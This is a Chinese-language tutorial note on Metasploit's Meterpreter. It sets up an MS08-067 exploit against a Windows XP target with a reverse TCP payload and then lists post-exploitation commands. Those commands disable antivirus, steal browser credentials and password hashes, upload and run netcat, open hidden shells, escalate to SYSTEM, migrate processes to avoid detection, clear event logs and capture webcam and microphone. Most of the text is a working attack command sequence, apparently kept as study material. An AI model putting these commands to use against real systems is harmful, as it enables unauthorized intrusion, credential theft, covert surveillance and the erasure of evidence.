客户端提供基于ruby的全特性api，服务端使用c语言编写，通过服务端可以向客户端进行指令发送
这种payload可能更类似于msf官方的一种远控软件，只不过客户端以一个payload的方式存在，可以与各种exploit模块配合使用
基本命令
searh 08-067
use exploit/windows/smb/ms08_067_netapi
show option
set rhost 192.168.1.121
目的主机ip
set target 34
选择winxp的某个版本的目的主机环境
set payload windows/meterpreter/reverse_tcp
show option
set lhost 192.168.1.113
本机ip
可以使用默认lport
session -l
session -i 1
进入界面后显示当前目录为meterpreter
help
查看可用的命令
background
回到之前的攻击模块 msf的
pwd
显示当前目录
cd..
回到上一级目录
ls
列举目录
dir
列举目录（与ls命令结果相同，只不过前者是linux下的命令，后者是winows下的命令）
cat boot.ini
查看文件内容
以上命令中很多是linux的命令，但是在meterpreter中工作目录还是在windows系统中，而且可以执行
mkdir aaa
新建目录aaa
rmdir aaa
mv autoexec.bat a.bat
将前面文佳改名为a.bat
rm a.bat
edit autoexec.bat
相当于vi，编辑文本
lpwd
本机当前工作目录
即卡里目前工作目录
lcd /tmp
本机kali进入当前tmp目录
run
bgrun
后台运行
按两下tab显示大量可用的脚本或post模块
bgrun killav
删除目的主机的杀毒软件
bgrun post/windows/gather/enum_ie
该模块用于获得目的主机ie浏览器保存的用户名密码等信息
部分模块可能不能使用
bgrun uploadexec
上传exe文件并执行
bgrun vnc
vnc是图形化远程管理界面
看到目的主机的图形界面
bgrun webcam
启动摄像头
bgrun winbf
密码暴力破解
clearev
清除目的主机日志
事件查看器（windows系统）
系统
安全性
应用程序
download boot.ini
下载后的保存目录是/usr/
可以在下载后执行lpwd查看保存在哪个卡里目录下
upload /usr/share/windows.binaries/nc.exe c:\\windows\\system32
将nc上传到目的主机system32目录下
注意这里windows下使用\\划分目录 \在linux中有其他用法
pwd
查看当前位于目的主机的c盘目录下
dir windows\\system32\\nc.exe
查看在目的主机中上传成功的nc.exe
execute -f nc -nvlp 3333
执行nc命令侦听一个端口3333
ps
查看荡当前进程
execute -f cmd.exe -i -H
加上-i直接进入cmd 如果不加-i直接在后台运行
-H是将窗口隐藏起来执行
getuid
显示当前用户账号
getsystem
将目前账号权限提升为system
getprivs
查看当前账号拥有的权限
getproxy
获取目的主机代理相关信息
getpid
查看当前meterpreter注入的进程的pid
ps
查看当前所有进程
migrate 1560
将目前注入的进程迁移到pid为1512的进程中
1512进程为桌面进程
防止进程被目的主机管理员结束掉
hashdump
下载目的主机账号密码的hash值
run post/windows/gather/hashdump
两者效果相同，只不过一个是直接使用命令，一个调用post模块
sysinfo
目的主机操作系统信息
ps
显示目的主机当前进程
kill 1052
杀死1052进程
reboot
重启
shutdown
关机
shell
进入目的主机系统shell界面
show_mount
挂载的系统分区
search -f win.ini
在目前的目的主机工作的盘符中搜索win.ini文件
arp
当前主机的arp缓存
netstat
当前网络状态
ipconfig
ifconfig
route
查看当前路由表
route -h
idletime
目标操作系统空闲多少时间
resource -r r.txt
调动外部资源文件
资源文件中存放指令
与kali中使用相似
record_mic
记录麦克风
webcam_list
当前主机上所有的摄像头
webcam_snap -i 1 -v false
每隔一秒摄像头拍摄一次
meterpreter python拓展
可以使原生python代码直接在目的主机上执行，不需要在客户端存在python运行环境
load python
在meterpreter界面中执行可以加载python插件
python_execute "print('hello word')"
在目的主机使用python打印字符串
python_import -f find.py
调用某个python文件
msfcli
另一个msf使用界面
一般用于写脚本调用msf命令
2015年6月已经取消
msfconsole -x取代
子主题 1

使用msfconsole -x 参数可以直接在后面的""中输入要执行的msf命令，命令之间用;隔开，可以起到直接在kali界面调用msf脚本完成攻击的功能